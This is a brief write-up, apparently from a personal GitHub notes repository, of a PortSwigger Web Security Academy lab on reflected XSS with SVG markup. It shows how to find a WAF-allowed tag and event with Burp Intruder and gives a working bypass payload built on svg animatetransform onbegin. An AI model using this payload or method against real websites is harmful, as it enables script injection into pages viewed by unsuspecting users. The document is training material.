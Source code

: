 ```
Reflected XSS with some SVG markup allowed
```

Doing `<script>alert(1)</script>` on search will result in it being blocked via WAF
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/17c9e8f6-7b74-4785-b5cd-03f29edb0722)

Load up on burpesuite intruder 
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Copy event tag
Find out what tag we can use that is not blocked
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/3108794e-8647-4a88-baab-7d359108db3d)




We can use `animatetransform` 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/fadd898a-d3af-4e87-825a-3727cc68e72a)





Find out what event we can use
`GET /?search=<animatetransform%20§§=1>`

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/dcdd8187-02f2-4a48-99e5-263d45592d9e)

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/a836e5eb-84a3-4a90-ac65-f48d0997bd99)



We can use onbegin

Construct a query to break out so we can xss
`"><svg><animatetransform onbegin=alert(1)>`

```

https://YOUR-LAB-ID.web-security-academy.net/?search="><svg><animatetransform onbegin=alert(1)>

```
